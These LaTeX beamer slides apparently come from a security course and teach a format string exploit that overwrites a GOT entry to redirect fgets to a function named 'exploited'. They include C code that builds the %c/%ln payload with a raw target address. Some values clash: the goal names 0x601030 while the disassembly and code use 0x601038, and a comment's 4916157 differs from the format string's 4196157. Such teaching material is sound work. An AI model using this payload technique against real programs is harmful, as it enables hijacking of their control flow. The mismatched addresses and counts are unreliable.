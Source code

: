 \usetikzlibrary{calc,fit,positioning}

\begin{frame}[fragile,label=formatGOT]{format string overwrite: GOT}
\begin{lstlisting}
0000000000400580 <fgets@plt>:
  400580:       ff 25 9a 0a 20 00       jmpq   *0x200a9a(%rip)
        # 601038 <_GLOBAL_OFFSET_TABLE_+0x30>
`\textit{\ldots}`

0000000000400706 <exploited>:
...
\end{lstlisting}
    \begin{itemize}
        \item goal: replace \texttt{0x601030} (pointer to \texttt{fgets}) \\
              with \texttt{0x400726} (pointer to \texttt{exploited})
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=formatExample]{format string overwrite: setup}
\lstset{
    language=C,
    style=smaller,
}
\begin{lstlisting}
    /* advance through 5 registers, then
     * 5 * 8 = 40 bytes down stack, outputting
     * 4916157 + 9 characters before using 
     * %ln to store a long.
     */
    fputs("%c%c%c%c%c%c%c%c%c%.4196157u%ln", stdout);
    /* include 5 bytes of padding to make current location
     * in buffer match where on the stack printf will be reading.
     */
    fputs("?????", stdout);
    void *ptr = (void*) 0x601038;
    /* write pointer value, which will include \0s */
    fwrite(&ptr, 1, sizeof(ptr), stdout);
    fputs("\n", stdout);
\end{lstlisting}
\end{frame}

\begin{frame}{demo}
    \begin{itemize}
        \item but millions of characters of junk output?
        \item can do better --- write value in multiple pieces
            \begin{itemize}
            \item use multiple \%n
            \end{itemize}
    \end{itemize}
\end{frame}


